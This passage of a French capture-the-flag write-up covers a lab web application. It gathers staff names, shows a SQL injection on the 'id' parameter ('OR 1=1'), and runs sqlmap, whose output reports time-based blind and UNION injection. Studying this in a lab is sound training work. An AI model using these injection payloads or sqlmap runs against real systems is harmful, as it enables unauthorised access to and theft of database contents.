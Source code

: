 ![Affichage de l'image CTF6_user_view.png](images/CTF6_user_view.png)

Quatre annonces y ont été publiées, numérotées de 1 à 4, mais il s'agit de [faux-texte](https://fr.wikipedia.org/wiki/Faux-texte). Les contacts de cinq salariés de Widgets Inc. figurent en page d'accueil, ces informations seront certainement très utiles par la suite : John Sloan - CEO, Linda Charm - Manager, Fred Beekman - Sales, Molly Steele - Assistant, Toby Victor - Technical.

## Exploitation d'une injection SQL sur le paramètre id

Après quelques tests, on s'aperçoit que l'URL http://192.168.56.101/index.php?id=4 renvoie l'annonce _Suspendisse sapien orci_ tandis que http://192.168.56.101/index.php?id=4%20OR%201=1 renvoie l'ensemble des annonces publiées sur le site ; cela signifie très probablement qu'il y a une injection SQL d'exploitable sur la plate-forme.

Afin d'éviter de longs tests manuels fastidieux, pour trouver la bonne syntaxe permettant d'exfiltrer les données de la base MySQL, SQLMap vient à la rescousse. Il s'agit [d'un outil open source permettant d'identifier et d'exploiter une injection SQL](https://connect.ed-diamond.com/MISC/MISC-062/Utilisation-avancee-de-sqlmap) sur des applications Web. En lui spécifiant l'URL du site Web ainsi que les paramètres à tester, SQLMap va tester différentes techniques afin d'identifier la présence d'une injection SQL...

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/index.php?id=14"
--snip--
[00:11:22] [INFO] testing connection to the target URL
[00:11:22] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[00:11:22] [INFO] testing if the target URL content is stable
[00:11:22] [INFO] target URL content is stable
[00:11:22] [INFO] testing if GET parameter 'id' is dynamic
[00:11:22] [WARNING] GET parameter 'id' does not appear to be dynamic
[00:11:22] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[00:11:22] [INFO] testing for SQL injection on GET parameter 'id'
--snip--
[00:11:22] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[00:11:22] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
--snip--
[00:11:22] [INFO] target URL appears to be UNION injectable with 7 columns
```